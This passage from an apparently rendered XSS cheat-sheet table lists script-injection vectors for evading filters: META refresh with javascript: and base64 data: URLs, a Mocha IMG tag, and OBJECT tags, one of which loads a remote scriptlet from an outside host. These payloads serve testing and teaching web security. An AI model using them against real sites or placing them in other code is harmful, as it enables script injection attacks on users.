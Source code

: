 </td>
<td>
<div>scriptalert(XSS)/script</div></td>
</tr>
<tr>
<td>META</td>
<td>
<pre>&lt;META HTTP-EQUIV="refresh" »
CONTENT="0;url=javascript:al »
ert('XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>META w/data:URL</td>
<td>
<pre>&lt;META HTTP-EQUIV="refresh" »
CONTENT="0;url=data:text/htm »
l;base64,PHNjcmlwdD5hbGVydCg »
nWFNTJyk8L3NjcmlwdD4K"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>META w/additional URL parameter</td>
<td>
<pre>&lt;META HTTP-EQUIV="refresh" »
CONTENT="0; »
URL=http://;URL=javascript:a »
lert('XSS');"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Mocha</td>
<td>
<pre>&lt;IMG SRC="mocha:[code]"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>OBJECT</td>
<td>
<pre>&lt;OBJECT »
TYPE="text/x-scriptlet" »
DATA="http://ha.ckers.org/sc »
riptlet.html"&gt;&lt;/OBJECT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>OBJECT w/Embedded XSS</td>
<td>
<pre>&lt;OBJECT »
classid=clsid:ae24fdae-03c6- »
11d1-8b76-0080c744f389&gt;&lt;para »
m name=url »
value=javascript:alert('XSS' »
)&gt;&lt;/OBJECT&gt;</pre>
